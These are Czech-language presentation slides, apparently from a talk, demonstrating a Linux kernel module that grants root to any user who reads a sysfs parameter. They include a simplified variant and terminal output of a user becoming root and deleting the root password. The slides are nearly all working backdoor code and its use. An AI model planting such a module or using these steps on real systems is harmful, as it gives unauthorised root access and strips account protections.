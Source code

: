\documentclass{beamer}
\begin{document}
\begin{frame}[fragile]
\frametitle{Prvně v jaderném modulu "oficiálně"...}
\begin{figure}
\begin{verbatim}
#include <linux/module.h>

static int su(char *val, const struct kernel_param *kp) {
	struct cred* new_cred = prepare_creds();
	kuid_t v = {0};
	new_cred->uid = v;
	new_cred->euid = v;
	new_cred->fsuid = v;
	return commit_creds(new_cred);
}
static struct kernel_param_ops ops = {
	.get = &su, // read()
};
// /sys/module/test/parameters/su
module_param_cb(su, &ops, NULL, 0664);
MODULE_LICENSE("GPL v2");
\end{verbatim}
\end{figure}
\end{frame}


\begin{frame}[fragile]
\frametitle{Funguje?}
\begin{figure}
\begin{verbatim}
# insmod ./test.ko

$ id
uid=1000(daniel) gid=1000(daniel) groups=1000(daniel)
$ cat /sys/module/test/parameters/su
$ id
uid=1000(daniel) gid=1000(daniel) groups=1000(daniel)
\end{verbatim}
\end{figure}
\end{frame}

\begin{frame}[fragile]
\frametitle{Funguje!}
\begin{figure}
\begin{verbatim}
$ read < /sys/module/test/parameters/su
# id
uid=0(root) gid=1000(daniel) groups=1000(daniel)
# ip addr add fd64::1/128 dev eth0
# ip addr show dev eth0 | grep fd
inet6 fd64::1/128 scope global
# passwd -d root
passwd: password expiry information changed.
\end{verbatim}
\end{figure}
\end{frame}

\begin{frame}[fragile]
\frametitle{Můžeme zjednodušit...}
\begin{figure}
	\begin{verbatim}
#include <linux/module.h>

static int su(char *val, const struct kernel_param *kp) {
	kuid_t v = {0};
	((struct cred*) current->cred)->uid = v; 
	return 0;
}

static struct kernel_param_ops ops = {
	.get = &su,
};
module_param_cb(su, &ops, NULL, 0664);
MODULE_LICENSE("GPL v2");

	\end{verbatim}
\end{figure}
\end{frame}
\end{document}
